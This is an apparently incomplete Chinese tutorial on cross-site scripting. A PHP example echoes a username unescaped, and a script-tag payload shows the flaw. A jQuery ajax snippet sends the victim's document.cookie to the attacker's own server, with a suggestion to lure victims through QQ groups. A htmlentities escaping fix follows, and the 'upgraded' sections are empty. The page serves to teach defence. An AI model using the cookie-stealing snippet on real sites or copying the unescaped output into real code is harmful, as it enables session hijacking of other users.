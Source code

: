 
## 概念

XSS是最常见的一种web攻击方式，它指的是恶意用户把代码注入到其他用户要访问的网站中。

站在前端的角度，可以理解为将js代码注入。

```php
<?php
    $username="鹏仔";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo $username;?>
        </div>
    </body>
</html>
```

如果你的用户名，起名称的时候，带上script标签呢？我们知道，浏览器遇到html中的script标签的时候，会解析并执行标签中的js脚本代码，那么如果你的用户名称里面含有script标签的话，就可以执行其中的代码了。代码如下：

```php
<?php
    $username="<script>alert('侯医生');</script>";
?>
```

如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：

```javascript
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```

再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。

## 防范

最简单的解决方法，就是在前端将输出数据进行转义。

比如，上述的XSS攻击的本质，就是因为浏览器遇到了`<script>`标签，然后才会执行其中的脚本。

因此，我们只需要对`<script>`标签进行转义，则浏览器就不会执行其中的恶意脚本。

```php
<?php
    $username="<script>alert('鹏仔');</script>";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <!--我们将输出的后端变量，转义之后再输出，则可以避免被注入代码-->
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
    </body>
</html>
```

> 在 Node.js 中，可以用 htmlEncode() 。

## 升级版XSS



## 升级版防范策略












